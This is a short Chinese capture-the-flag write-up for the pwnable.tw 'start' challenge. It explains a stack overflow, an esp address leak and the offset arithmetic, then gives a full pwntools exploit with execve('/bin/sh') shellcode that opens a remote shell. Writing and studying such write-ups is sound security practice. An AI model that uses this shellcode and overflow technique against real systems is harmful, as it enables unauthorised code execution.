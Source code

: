 是一道基础的栈溢出

题目会用int 80给一个输出，然后会允许你进行输入，输入可以直接完成栈溢出

（int 80中eax寄存器内存放的是操作数，4为输出，3为输入

思路是用输出leak出esp的地址，然后执行存放在栈内的shellcode

ROP直接跳转到 0x08048087 ，可以通过输出泄露出esp此时的地址

需要注意的是，这里获得的输出并不是当前的栈顶，相比于正常的函数调用，少了一个 pop esp的过程

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-start-1.png)

所以我们需要对获得的 esp_addr - 0x4 才是真正的栈顶

所以 shellcode_addr = esp_addr - 0x4 + 0x18 = esp_addr + 0x14

exp

```python
from pwn import  *

p = remote('chall.pwnable.tw',10000)
payload = 'a'*0x14 + p32(0x08048087)
p.recvuntil(':')
p.send(payload)
addr = u32(p.recv(4))+0x14
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = 'a'*0x14 + p32(addr) + shellcode
p.send(payload)
p.interactive()
```

